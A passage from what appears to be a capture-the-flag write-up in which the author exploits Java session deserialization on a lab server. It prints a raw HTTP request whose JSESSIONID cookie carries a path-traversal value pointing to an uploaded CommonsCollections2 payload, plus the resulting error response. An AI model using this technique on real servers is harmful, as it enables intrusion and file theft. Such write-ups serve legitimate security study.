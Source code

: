 ![Threatened cat](./threatened_cat.png)

I then triggered requests with the `JSESSIONID` pointing to these files:
```
GET /cat/;jsessionid=DC086F9205C860F48FCAC655CE2013A3 HTTP/1.1
Host: 08cbe5a5-3262-47e0-994a-c5655f0b856c.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://08cbe5a5-3262-47e0-994a-c5655f0b856c.idocker.vuln.land/cat/
Connection: close
Cookie: JSESSIONID=../../../../../../../../../../usr/local/uploads/CommonsCollections2
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

Finally, the `CommonsCollections2` payload did the trick and copied the `catnip.txt` file to the uploads folder where it was accessible to me. The response to that request includes long stacktraces letting me know that the payload was indeed executed:
```
HTTP/1.1 500 Internal Server Error
Content-Language: en
Content-Type: text/html;charset=utf-8
Date: Mon, 21 Dec 2020 13:17:32 GMT
Connection: close
Content-Length: 11546

```